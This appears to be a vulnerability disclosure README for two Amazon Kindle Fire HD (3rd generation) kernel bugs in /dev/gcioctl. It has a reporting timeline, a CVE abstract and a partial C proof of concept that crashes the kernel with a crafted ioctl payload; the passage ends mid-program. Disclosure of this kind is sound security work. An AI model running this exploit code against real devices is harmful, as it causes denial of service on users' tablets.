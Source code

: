 
# CVE-2018-11023 & CVE-2018-11024
These page show the practical CVEs that Found. I reported these bugs to Security@amazon.com on On 5/11/2018 and now I have been told they have repaired the bugs and the details can be published. However,  Amazon does not have an advisory page at the moment. I think it is a must to list the detailed infomation here.
## Time Line
 * 5/11/2018 Bugs were reported to Security@amazon.com.
 * 06/27/2018 Amazon got confirmation that two of them allow local elevation of privilege from a regular user to root (CVE-2018-11023 and CVE-2018-11024 on /dev/gcioctl). 
 * 09/18/2018 Amazon had started updating our FireOS 4 devices with the security patches addressing the two critical issues (i.e. CVE-2018-11023 and CVE-2018-11024 on /dev/gcioctl).
 

 ## CVE-2018-11023
 ### Abstract
 
* Name: Amazon Kindle Fire HD (3rd Generation) Kernel DoS
* Date: 2018-10-10
* Reporter: Shuaibing Lu
* Vendor: http://www.amazon.com/
* Software Link: https://fireos-tablet-src.s3.amazonaws.com/46sVcHzumgrjpCXPHw6oygKVmw/kindle_fire_7inch_4.5.5.3.tar.bz2
* Version: Fire OS 4.5.5.3
### Description

Kernel module /omap/drivers/misc/gcx/gcioctl/gcif.c in the kernel component in Amazon Kindle Fire HD(3rd) Fire OS 4.5.5.3 allows attackers to inject a crafted argument via the argument of an ioctl on device /dev/gcioctl with the command 3222560159 and cause a kernel crash.

### PoC
```
/*
 * This is poc of Kindle Fire HD 3rd
 * A bug in the ioctl interface of device file /dev/gcioctl causes the system crash via IOCTL 3222560159. 
 * This Poc should run with permission to do ioctl on /dev/gcioctl.
 *
 */
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = "/dev/gcioctl";
static command = 3222560159; 

int main(int argc, char **argv, char **env) {
        unsigned int payload[] = { 0x244085aa, 0x1a03e6ef, 0x000003f4, 0x00000000 };

        int fd = 0;
        
        fd = open(driver, O_RDONLY);
        if (fd < 0) {
            printf("Failed to open %s, with errno %d\n", driver, errno);
            system("echo 1 > /data/local/tmp/log");
            return -1;
        }
        
        printf("Try open %s with command 0x%x.\n", driver, command);
        printf("System will crash and reboot.\n");
```